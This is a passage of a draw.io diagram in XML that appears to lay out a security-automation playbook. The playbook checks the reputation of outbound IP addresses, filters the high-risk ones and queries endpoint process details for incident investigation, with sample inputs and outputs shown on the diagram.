class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;168.63.129.16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.183.140.32&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 29,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.183.140.32&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 917998624,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 29,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.183.140.32&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;29&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;&lt;p&gt;&amp;nbsp;&amp;nbsp;&lt;/p&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5285" y="685" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-196" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set results = PlaybookData | jsonpath(&#39;$.[&quot;Check IP Reputation - Webroot&quot;].rawData.results&#39;) %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{results|jsonpath(&#39;$[?queries.getinfo.riskLevel &amp;gt;= 5]&#39;)}}&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5655" y="640" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-197" value="&lt;h1&gt;Output&lt;br&gt;&lt;/h1&gt;&lt;div&gt;&lt;div&gt;[&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.33.195.208&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 874628048,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 89,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;100.64.0.6&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1681915910,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 100,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;204.79.197.239&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3427780079,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 81,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;13.107.21.239&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 225121775,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 83,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; }&lt;/div&gt;&lt;div&gt;]&lt;/div&gt;&lt;div&gt;&amp;nbsp;&amp;nbsp;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5655" y="675" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-201" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-198" target="NKeEgVbL9whLPdXC6YmX-199">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-203" value="Risk Level &amp;gt; 5&amp;nbsp;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-201">
          <mxGeometry x="0.147" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-202" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-198" target="NKeEgVbL9whLPdXC6YmX-200">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-204" value="Risk Level &amp;lt; 5&amp;nbsp;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-202">
          <mxGeometry x="0.051" y="-2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-198" value="Get Malicious IPs&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Data Formatter" style="rhombus;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5690" y="810" width="135" height="130" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-210" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-199" target="NKeEgVbL9whLPdXC6YmX-209">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-199" value="Get Process Details by IPv4&lt;br&gt;Command - RSA_CrowdstrikeGetProcessbyIOCs" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5970" y="770" width="350" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-200" value="Investigation-Correlate Malicious Outbound Connections&lt;br&gt;Command - RSA_CrowdstrikeGetProcessbyIOCs" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5970" y="1020" width="350" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-205" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeGetProcessbyIOCs&lt;/div&gt;&lt;div&gt;Parameter 1: IOC Type&lt;/div&gt;&lt;div&gt;ipv4&lt;/div&gt;&lt;div&gt;Parameter 2: IOC Value&lt;/div&gt;&lt;div&gt;[&quot;52.33.195.208&quot;,&quot;100.64.0.6&quot;,&quot;204.79.197.239&quot;,&quot;13.107.21.239&quot;]&lt;/div&gt;&lt;div&gt;Parameter 3: Host Aids&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="6045" y="590" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-206" value="&lt;h1&gt;Output&lt;br&gt;&lt;/h1&gt;&lt;div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="6045" y="625" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-207" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[{&quot;IP Address&quot;:&quot;52.33.195.208&quot;,&quot;Reputation&quot;:89,&quot;Risk Level&quot;:5},{&quot;IP Address&quot;:&quot;100.64.0.6&quot;,&quot;Reputation&quot;:100,&quot;Risk Level&quot;:5},{&quot;IP Address&quot;:&quot;204.79.197.239&quot;,&quot;Reputation&quot;:81,&quot;Risk Level&quot;:5},{&quot;IP Address&quot;:&quot;13.107.21.239&quot;,&quot;Reputation&quot;:83,&quot;Risk Level&quot;:5}]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Malicious Outbound TCP Connection IP Reputation&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Check IP reputation of outbound TCP connection to external IPs&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="6045" y="862.5" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-208" value="&lt;h1&gt;Output&lt;br&gt;&lt;/h1&gt;&lt;div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="6045" y="897.5" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-212" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-209" target="NKeEgVbL9whLPdXC6YmX-211">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-209" value="Get Command Lines Details&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="6480" y="770" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-214" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-211" target="NKeEgVbL9whLPdXC6YmX-213">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-211" value="Convert to Strings&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="6780" y="770" width="130" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-213" value="Extract Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="7030" y="770" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-215" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set cmd = PlaybookData | jsonpath(&#39;$.[&quot;Get Process Details by IPv4&quot;].returnData[*].command_line&#39;)|to_list|unique %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{cmd}}&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="6490" y="592.5" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-216" value="&lt;h1&gt;Output&lt;br&gt;&lt;/h1&gt;&lt;div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="6490" y="627.5" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-217" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{{PlaybookData | jsonpath(&#39;$.[&quot;Get Command Lines Details&quot;].returnData&#39;)|to_list|join(&quot;,&quot;)}}&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="6760" y="592.5" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-218" value="&lt;h1&gt;Output&lt;br&gt;&lt;/h1&gt;&lt;div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="6760" y="627.5" width="200" height="100" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
